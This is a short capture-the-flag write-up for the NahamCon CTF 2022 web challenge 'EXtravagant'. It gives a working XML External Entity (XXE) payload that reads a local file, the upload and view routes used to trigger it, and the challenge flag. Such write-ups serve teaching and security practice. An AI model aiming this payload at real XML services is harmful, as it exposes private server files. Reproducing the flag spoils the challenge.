 # NahamCon CTF 2022: EXtravagant

Category: Web

Points: 50

## Description

> I've been working on a XML parsing service. It's not finished but there should be enough for you to try out. The flag is in /var/www

## Summary

For this challenge we can abuse XML External Entity (XXE) to read the contents of a file. We need to upload a xml with our payload and then view the file to see the flag. 

## Flag

```
flag{639b72f2dd0017f454c44c3863c4e195}
```

## Detailed Solution

We can use the following code to read the contents of the flag. (foo and bar can be any string)

```xml
( CONTENTS OF VULN.XML )

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///var/www/flag.txt"> ]>
<bar>&xxe;</bar>
```

Now let's try to upload the xml file. This can be done by using the /trial route. After uploading the xml file we can view the contents of the file using the /XML route.
```
[HOST]:[PORT]/XML?file=vuln.xml
```
Our flag is read from the file vuln.xml and is returned for us to view.

---
[Back to home](../../README.md)
